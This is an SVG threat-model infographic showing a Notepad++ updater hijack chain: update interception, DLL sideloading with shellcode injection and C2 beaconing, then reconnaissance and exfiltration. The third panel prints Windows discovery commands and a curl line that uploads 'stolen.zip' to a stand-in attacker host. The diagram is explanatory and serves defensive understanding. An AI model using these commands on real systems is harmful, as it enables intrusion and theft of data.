

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 830" width="100%" height="100%">
  <defs>
    <linearGradient id="bgGrad" x1="0%" y1="0%" x2="100%" y2="100%">
      <stop offset="0%" stop-color="#0b0f19" />
      <stop offset="100%" stop-color="#111827" />
    </linearGradient>
    <linearGradient id="cardGrad" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#1e293b" />
      <stop offset="100%" stop-color="#0f172a" />
    </linearGradient>
    <linearGradient id="redCard" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#2d151e" />
      <stop offset="100%" stop-color="#1f1118" />
    </linearGradient>
    <linearGradient id="greenCard" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#064e3b" />
      <stop offset="100%" stop-color="#022c22" />
    </linearGradient>
    <filter id="shadow" x="-5%" y="-5%" width="110%" height="110%">
      <feDropShadow dx="0" dy="4" stdDeviation="6" flood-color="#000000" flood-opacity="0.5" />
    </filter>
  </defs>
  <rect width="1200" height="830" fill="url(#bgGrad)" />
  <text x="600" y="42" text-anchor="middle" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="24" font-weight="700" fill="#f8fafc">Notepad++ GUP Updater Hijacking &amp; DLL Sideloading Architecture</text>
  <text x="600" y="68" text-anchor="middle" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="13" fill="#94a3b8">Targeted software-delivery interception, DLL hijacking, reconnaissance staging, and Authenticode defenses</text>
  <g transform="translate(40, 95)" filter="url(#shadow)">
    <rect width="350" height="390" rx="10" fill="url(#redCard)" stroke="#f87171" stroke-width="1.5" />
    <rect x="0" y="0" width="350" height="42" rx="10" fill="#991b1b" fill-opacity="0.3" />
    <text x="20" y="26" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="14" font-weight="700" fill="#fca5a5">1. Update Traffic Interception</text>
    <rect x="16" y="55" width="318" height="85" rx="6" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="26" y="75" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#38bdf8">GUP (Generic Updater) Trigger</text>
    <text x="26" y="93" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Notepad++ spawns updater/gup.exe on startup</text>
    <text x="26" y="108" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Requests update.xml manifest over network.</text>
    <text x="26" y="123" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="9.5" fill="#fca5a5">Insecure channel / unpinned endpoint</text>
    <path d="M 175 140 L 175 155" stroke="#f87171" stroke-width="2" />
    <rect x="16" y="155" width="318" height="110" rx="6" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="26" y="175" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#fbbf24">Targeted MITM / DNS Poisoning</text>
    <text x="26" y="193" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Adversary intercepts update request via:</text>
    <text x="26" y="208" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Targeted ISP-level traffic redirection</text>
    <text x="26" y="223" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Rogue / compromised intermediate CA</text>
    <text x="26" y="243" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="9.5" fill="#fca5a5">Selectively targets high-value individual users</text>
    <path d="M 175 265 L 175 280" stroke="#f87171" stroke-width="2" />
    <rect x="16" y="280" width="318" height="95" rx="6" fill="#450a0a" stroke="#ef4444" stroke-width="1" />
    <text x="26" y="300" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#fca5a5">Forged Update Manifest Returned</text>
    <text x="26" y="318" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fecaca">• Points download URL to attacker C2 host</text>
    <text x="26" y="333" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fecaca">• Delivers trojanized installer zip / binary</text>
    <text x="26" y="348" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fecaca">• GUP lacked signature verification!</text>
  </g>
  <g transform="translate(425, 95)" filter="url(#shadow)">
    <rect width="350" height="390" rx="10" fill="url(#redCard)" stroke="#f87171" stroke-width="1.5" />
    <rect x="0" y="0" width="350" height="42" rx="10" fill="#991b1b" fill-opacity="0.3" />
    <text x="20" y="26" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="14" font-weight="700" fill="#fca5a5">2. DLL Sideloading &amp; Memory Injection</text>
    <rect x="16" y="55" width="318" height="85" rx="6" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="26" y="75" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#fbbf24">Malicious Proxy DLL Dropped</text>
    <text x="26" y="93" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Attacker places crafted DLL alongside legitimate</text>
    <text x="26" y="108" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">signed executable in application directory.</text>
    <text x="26" y="123" font-family="monospace" font-size="9.5" fill="#38bdf8">libcurl.dll / certutil.dll proxying</text>
    <path d="M 175 140 L 175 155" stroke="#f87171" stroke-width="2" />
    <rect x="16" y="155" width="318" height="110" rx="6" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="26" y="175" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#f87171">Windows DLL Search Order Abuse</text>
    <text x="26" y="193" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Application loads DLL from local folder before</text>
    <text x="26" y="208" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">checking System32 directory:</text>
    <text x="26" y="223" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fca5a5">• Legitimate binary acts as execution host</text>
    <text x="26" y="243" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="9.5" fill="#94a3b8">Blends in with standard task manager processes</text>
    <path d="M 175 265 L 175 280" stroke="#f87171" stroke-width="2" />
    <rect x="16" y="280" width="318" height="95" rx="6" fill="#450a0a" stroke="#ef4444" stroke-width="1" />
    <text x="26" y="300" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#fca5a5">Shellcode Execution in Memory</text>
    <text x="26" y="318" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fecaca">• Unpacks encrypted shellcode payload</text>
    <text x="26" y="333" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fecaca">• Injects backdoor thread into Notepad++</text>
    <text x="26" y="348" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#fecaca">• Connects outbound beacon to C2 network</text>
  </g>
  <g transform="translate(810, 95)" filter="url(#shadow)">
    <rect width="350" height="390" rx="10" fill="url(#cardGrad)" stroke="#f59e0b" stroke-width="1.5" />
    <rect x="0" y="0" width="350" height="42" rx="10" fill="#b45309" fill-opacity="0.3" />
    <text x="20" y="26" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="14" font-weight="700" fill="#fef3c7">3. Hands-on Recon &amp; Exfiltration</text>
    <rect x="16" y="55" width="318" height="85" rx="6" fill="#0f172a" stroke="#334155" stroke-width="1" />
    <text x="26" y="75" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#fbbf24">Living-off-the-Land Discovery</text>
    <text x="26" y="93" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Actors execute native Windows discovery tools:</text>
    <text x="26" y="108" font-family="monospace" font-size="10" fill="#fca5a5">whoami /groups &amp;&amp; systeminfo</text>
    <text x="26" y="123" font-family="monospace" font-size="10" fill="#fca5a5">netstat -ano &amp;&amp; tasklist /v</text>
    <path d="M 175 140 L 175 155" stroke="#f59e0b" stroke-width="2" />
    <rect x="16" y="155" width="318" height="110" rx="6" fill="#0f172a" stroke="#334155" stroke-width="1" />
    <text x="26" y="175" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#38bdf8">Staging Data Exfiltration via curl</text>
    <text x="26" y="193" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">Attacker invokes built-in curl.exe utility:</text>
    <text x="26" y="208" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Gathers source code &amp; proprietary files</text>
    <text x="26" y="223" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Posts encrypted archives to drop site</text>
    <text x="26" y="243" font-family="monospace" font-size="9" fill="#fca5a5">curl -F "f=@stolen.zip" https://c2.actor/</text>
    <path d="M 175 265 L 175 280" stroke="#f59e0b" stroke-width="2" />
    <rect x="16" y="280" width="318" height="95" rx="6" fill="#1e293b" stroke="#475569" stroke-width="1" />
    <text x="26" y="300" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="700" fill="#ef4444">Persistent Host Compromise</text>
    <text x="26" y="318" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Backdoor persists across reboot cycles</text>
    <text x="26" y="333" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Sideloaded binary evades basic AV detection</text>
    <text x="26" y="348" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10" fill="#cbd5e1">• Direct threat to software developer machines</text>
  </g>
